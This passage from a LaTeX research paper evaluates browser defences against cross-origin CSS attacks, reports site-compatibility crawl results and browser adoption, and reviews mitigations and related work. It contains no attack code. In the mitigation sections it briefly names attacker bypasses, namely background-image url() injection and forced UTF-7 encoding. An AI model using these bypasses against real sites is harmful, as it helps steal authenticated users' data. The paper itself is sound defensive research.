In the top 100,000 sites, we logged a total of 3,372 CSS references that did not specify the \verb|text/css| MIME type in the HTTP Content-Type response header. There were 2,363 of these CSS resources that returned a HTTP error status code, e.g. 400 Bad Request, 403 Forbidden, 404 Not Found, 500 Internal Server Error, 502 Bad Gateway or 503 Service Temporarily Unavailable. Note that these resources are unreachable, thus blocking them would have no affect to the rendering of the page. Excluding the responses with HTTP errors, there were 1,009 CSS resources that provided misconfigured Content-Type headers. The common misconfigured MIME types for CSS files in the top 100,000 sites are shown in Table~\ref{table:MIME}. There were as many as 715 CSS references that retrieved HTTP responses with the \verb|text/html| MIME type. Some of these \texttt{text/html} responses were less serious conditions, where the specified URL no longer exists and was redirected by servers to a landing page with HTTP status code 200. For HTTP responses with a missing Content-Type header, we considered them identical as setting the MIME type to an empty string. We logged a total of 178 CSS resources with an empty MIME type. Our crawler also collected 42 CSS resources with other less-frequent MIME types, e.g. \verb|application/x-javascript|. 

By checking the DTD of the referring document, our crawler logged whether the standards mode or quirks mode was triggered for parsing each CSS resource. We observed that standards mode was widely used on 68,378 web pages, where we found 2,416 CSS resources that had invalid MIME types that were already blocked by standards mode, as mentioned in Section~\ref{sec:proposal}. On web pages rendered in quirks mode, we found 72 cross-origin CSS resources with invalid MIME types (excluding HTTP errors) that would be blocked by our strict approach proposal.

Our crawler reported that 1,059 (0.41\%) CSS resources were syntactically malformed, in which the browser failed to parse a valid CSS construct at the beginning of the CSS file. One of the common syntax errors is to start the CSS file with an HTML style tag. None of the cross-origin CSS resources with invalid MIME types were syntactically malformed.

%We ran a scan across the top 500,000 URLs looking for cross-origin loads of CSS with an invalid MIME type. Valid MIME types are defined as text/css, application/x-unknown-content-type, and empty. There were a total of 140 URLs detected that referenced cross-origin CSS with broken MIME types. There were 60 URLs that would be considered as broken, including 13 with text/plain, 15 with text/html, 31 with application/css, and 1 with application/x-pointplus. If we apply the heuristics of the conservative approach, only one URL that served text/html MIME would fail to load, which was severely broken because it had valid CSS rules after a style tag.

\paragraph{Discussion}
In the top 100,000 web sites, we observed a total of 1,009 CSS resources that didn't serve the correct MIME type (excluding responses with HTTP errors). Most misconfigured servers incorrectly send the \texttt{text/html} MIME type regardless of the served content type. We also observed that 68.38\% sites trigger standards mode, which already blocks 2,416 CSS resources with invalid MIME types.

Based on our evaluation results, deploying the strict approach of our proposal would block a total of 74 cross-origin CSS resources on 62 (0.06\%) of the top 100,000 sites. In some cases, the server was redirecting a request for an unavailable CSS file to an HTML landing page, thus the impact of blocking these CSS loads is less serious. Although this fraction may seem low, browser vendors have historically been reluctant to deploy changes that break popular web sites. 

In our results, none of the cross-origin CSS files with invalid MIME types were syntactically malformed. Thus, applying the conservative approach did not induce false positives and would not affect the rendering of any of the top 100,000 sites. We suggest that the conservative approach is practical solution for browser vendors because it maximizes web site compatibility while defending the cross-origin CSS attack.

Due to practical limitations of our automated scanning, all of the tested links were unauthenticated. It is possible that more sites will be broken after logging in.

\begin{table*}
\centering
\begin{tabular}{|c|c|c|c|c|c|} \hline
Content-Type&Firefox 3.6&Firefox 3.7&Opera&Safari&Chrome\\ \hline
Empty&&&C&&\\ \hline
\texttt{application/x-unknown-content-type}&&&C&&\\ \hline
Bogus&&&C&C&C \\ \hline
\texttt{*/*}&&&C&C&C \\ \hline
\texttt{text/html}&C&S&C&C&C\\ \hline
\texttt{text/plain}&C&S&C&C&C\\ \hline
\texttt{application/octet-stream}&C&S&C&C&C\\ \hline
Other MIME types&C&S&C&C&C\\
%excluding \texttt{text/css}&&&&\\
\hline\end{tabular}
\caption{Adoption of proposal in major browsers. The `S' and `C' represent the strict approach and conservative approach, respectively.}
\label{table:adoption}
\end{table*}

\subsubsection{Adoption}
Our proposal has been adopted by several major browsers, including Google Chrome, Opera, Safari and Firefox. Our proposal requires no changes to existing web servers and only modifies the browser. We implemented a patch for the conservative approach of cross-origin CSS loading in WebKit, the open source web browser engine component integrated in Safari and Google Chrome. The WebKit patch was deployed first in Google Chrome~4.0.249.78, and also accepted in Safari~4.0.5. Note that the cross-origin CSS raw text leak is tightened by this patch because read access to cross-origin CSS raw text is limited to well-formed imports. Inspired by our WebKit patch, the exact same heuristic of our proposal was adopted in Opera~10.10. We implemented both the strict approach and the conservative approach for cross-origin CSS loading in Mozilla Firefox. Mozilla has deployed the conservative approach in Firefox~3.6.5 and the strict approach in alpha builds of Firefox~3.7.

The interpretation of valid MIME types for cross-origin CSS files differs slightly on each browser, as shown in Table~\ref{table:adoption}. In addition to the \texttt{text/css} MIME type, Firefox and WebKit-based browsers also accept files with an empty MIME type or the \texttt{application/x-unknown-content-type} MIME type, in which some servers attempt to trigger the browser's content-sniffing algorithm. We noticed that Firefox treats some unknown or bogus MIME types (strings that lack a slash e.g. \texttt{text}) as valid MIME types for CSS files. Other internet media types (e.g. \texttt{image/gif}) should be invalid for CSS files, with the exception of \texttt{text/css}.

\subsubsection{Missing Content Types}

One remaining issue that is not yet addressed by our proposal is that some web
applications send a Content-Type of \verb|application/x-unknown-content|
or omit the Content-Type header entirely. 
This scenario is not very common for HTML documents but we did see 178 CSS resources that lacked a Content-Type header in our experiment. Most browsers,
with the notable exception of Opera, do attempt to load cross-origin
style sheets with an empty MIME type even in standards mode. 
This behavior could open up a server
to attack if it fails to set a Content-Type header on its HTML documents. We
have not yet observed any web servers in the wild that are affected by this
vulnerability, but browsers may wish to follow Opera's lead and block such
style sheets when loaded across origins. In any case, we recommend that web
applications always properly set a Content-Type header.

\subsection{Other Client-Side Approaches}
There are other defensive approaches that can be deployed in browsers without modifying web servers including globally blocking cookies and tightening DOM access.  We argue that all of these approaches could either be circumvented with a variation of the attack, or would significantly reduce web site compatibility.

\paragraph{Block Cookies}
Browsers give users the option of disabling cookies
and always send anonymous requests, thus can prevent web attackers from
stealing content on any cookie-authenticated URLs. Additionally, some browsers
restrict cross-origin resources from setting or reading cookies (``third-party
cookie blocking''). However, some sites use session cookies for cross-origin
resources, which is why browser third-party cookie blocking typically only
blocks incoming cookies, rather than outbound
cookies~\cite{jackson06thirdpartycookies}. This third-party cookie blocking
behavior is insufficient to stop the cross-origin CSS attack, since the
attacker can still hijack the user's existing authenticated session.

\paragraph{Block JavaScript Style APIs}
The same-origin policy for DOM access restricts the ability for JavaScript to
access DOM properties and methods across domains. To prevent the cross-origin
CSS attack, browsers could block DOM access to style sheet text and computed
styles loaded from cross-origin style sheets, at least when the CSS file is
malformed or has incorrect MIME type. This restriction would stop some
attacks, but the attacker could still bypass this limitation with
\texttt{background-image} property injection technique described in
Section~\ref{sec:extraction}.

%\paragraph{Stricter CSS Parsing}
%CSS parsers are tolerant of syntax errors and will resume parsing after syntax errors. The cross-origin CSS attack could be mitigated if the browser's CSS parser rejected the style sheet on the first syntax error, as it does with script libraries. However, this approach would require all web developers to strictly write well formed CSS, and would immediately break many existing web sites.

\subsection{Server-side Mitigations}
In this section, we consider approaches that can be adopted by web servers
without requiring changes to current browsers. Web applications may wish to
adopt such mitigations to protect users of browsers that have not yet adopted
our proposed defenses, such as Internet Explorer.

\paragraph{Newlines}
In the CSS specification, strings and URLs cannot directly contain newlines.
In most browsers, newlines will break CSS parsing, preventing the attacker from loading the cross-origin data.
Thus, web applications that surround potential injection points with
newlines may interfere the cross-origin CSS attack.
However, the Internet Explorer allows newlines within CSS
property strings, making newlines an ineffective server-side mitigation for this browser.

\paragraph{HTML encoding}
Another mitigation for web applications would be to HTML-encode potential attack characters in user-controlled content. For example, the CSS parsing for a string would break if it was not written in quotes. However, the attacker could bypass this barrier by injecting the \texttt{background-image} property which allows embedding strings within the \texttt{url()} notation without using quotes. We expect that escaping curly braces using \verb|&#123;| and \verb|&#125;| would be more successful; however most HTML encoding utility functions such as \verb|html_encode| in Ruby and \verb|htmlentities| in PHP refuse to encode these characters.

\paragraph{Declare Character Set Using HTTP Headers}
We observe that only 584 of the top 1,000 web sites declared a character set
for their home pages using the HTTP Content-Type header. A missing character set
may allow attacker to bypass encoding of quotes and curly braces by forcing
the UTF-7 character set, as described in Section~\ref{sec:escapes}. We
recommend that web applications always set document character sets using the HTTP Content-Type header.

\paragraph{Don't Use Ambient Authentication}
A more effective server-side mitigation is to avoid the use of ambient authentication, including HTTP authentication and session cookies. One solution is the web-key authentication scheme~\cite{webkey} which explicitly embeds user permissions in URLs without using cookies for authentication. This approach can mitigate the attack since the attacker does not know the unguessable URL.

\section{Related Work} \label{sec:relatedwork}
In this section, we review current browser defense techniques that are used to
defend against similar attacks: content-sniffing XSS and JavaScript hijacking.
We also consider recent research proposals for secure web browsers and their
protection against the cross-origin CSS attack.

\subsection{Content-Sniffing XSS Defenses}
In a content-sniffing XSS attack, the attacker uploads a crafted chameleon
document that conforms to a benign file format (e.g. PostScript) to an honest
web site and causes the victim user's browser to treat the file as HTML and
renders the attacker's evil page in the honest site's domain. Such
vulnerabilities are caused by discrepancies between the browser's
content-sniffing algorithm and the web site's upload filter. A secure
content-sniffing algorithm~\cite{securecontentsniffing} was proposed to
protect web sites from this attack by avoiding privilege escalation and using
prefix-disjoint signatures. The \texttt{X-Content-Type-Options}
header~\cite{nosniff} proposed by Microsoft allows web sites to opt-out of
MIME sniffing in supporting browsers by specifying the \texttt{nosniff}
directive in the HTTP response header. Neither the content-sniffing algorithm
nor the \texttt{nosniff} directive are triggered for loading style sheets,
thus both approaches do not prevent the cross-origin CSS attack.

\subsection{JavaScript Hijacking Defenses}
JavaScript Hijacking~\cite{jshijacking} is a vulnerability that allows the
attacker to steal sensitive data from an honest web site that uses JavaScript
as data transport format, such as JavaScript Object Notation (JSON) messages.
Since the browser security model allows importing scripts from a different
domain, the attacker can use a script tag in their evil page to include the
target JavaScript object. One solution is to prevent direct
execution of the responses by prefixing each JavaScript object with a
\texttt{while(1);} statement. The malicious page using script tag will execute
the infinite loop while the legitimate client application can modify the
response before executing it. Servers can also mitigate the attack by responding only to HTTP POST requests because the script tag always uses GET requests to load external libraries. Another defense approach is to include secret tokens in every legitimate request, which can not be forged by the attacker.
This approach may also be used in defense of the cross-origin
CSS attack, but puts the burden on web developers to implement secure
applications.

\subsection{OP Browser}
The OP web browser~\cite{op-browser} uses sandboxing techniques to isolate and
contain failures in browser components. Because OP attaches cookies to
cross-origin network requests just like any other browser, its architecture
does not provide any automatic protection against cross-origin CSS attacks.
However, the OP browser does maintain a detailed security audit log that could
be used by forensics experts to identify the site where the attack originated.

\subsection{Gazelle Browser}
The Gazelle browser~\cite{gazelle} is proposed as a secure web browser that exclusively controls resource protection and sharing across web sites, or principals, as a multi-principal OS. In their architecture, all cross-principal communication are explicitly mediated by the browser kernel to prevent cross-origin attacks. Cross-origin resources are protected and only retrieved if the content is a script or a style sheet, based on the Content-Type header of the HTTP response. Gazelle provides the same protection against cross-origin CSS attacks as the strict approach, at the cost of site incompatibility. From our compatibility evaluation results, the strict approach would affect the rendering of page styles on 62 of the top 100,000 web sites.

\subsection{SOMA}
The Same Origin Mutual Approval (SOMA) policy~\cite{soma} restricts communication between origins by requiring mutual approval between a web page's originating server and other servers across origins. In the SOMA system, each originating web site provides a manifest file that contains a whitelist of origins for outbound requests, enforced in the browser. On the other side, remote servers will only serve its contents to requests that originated from their list of approved domains. This design prevents leaking confidential data to unapproved sites and mitigates the cross-origin CSS attack. However, the negotiation scheme costs additional round-trip requests and require modifications to the participating web sites and browsers.

\section{Conclusions} \label{sec:conclusion}
In this paper, we presented two defense approaches for cross-origin CSS attacks. The strict approach is based solely on MIME type
checking, while the conservative approach uses the CSS parser to
address web site compatibility issues. We evaluated the compatibility of our
proposed solution over the top 100,000 web sites. Without relying on web site
modifications, the conservative approach completely mitigates the attack while
maximizing site compatibility. We found that common server misconfigurations
introduced false positives in the strict approach and would cause 0.06\%
sites to render incorrectly. We recommend that web administrators should
properly configure servers to specify the correct MIME type and character set in HTTP Content-Type headers to avoid false
positives. Our proposal has been adopted in several major browsers, including
Firefox, Google Chrome, Safari and Opera.

\section*{Acknowledgements}

We thank Dave Hyatt, Sam Weinig, Maciej Stachowiak, and Adam Barth of the
WebKit project and David Baron and Boris Zbarsky of Mozilla for reviewing our implementations of cross-origin CSS defenses.

\bibliographystyle{abbrv}
\bibliography{css}

\end{document}

\begin{figure*}
\centering

\includegraphics[width=\linewidth]{steps}
\caption{Steps of the Cross-Origin CSS Attack}
\label{figure:steps}
\end{figure*}

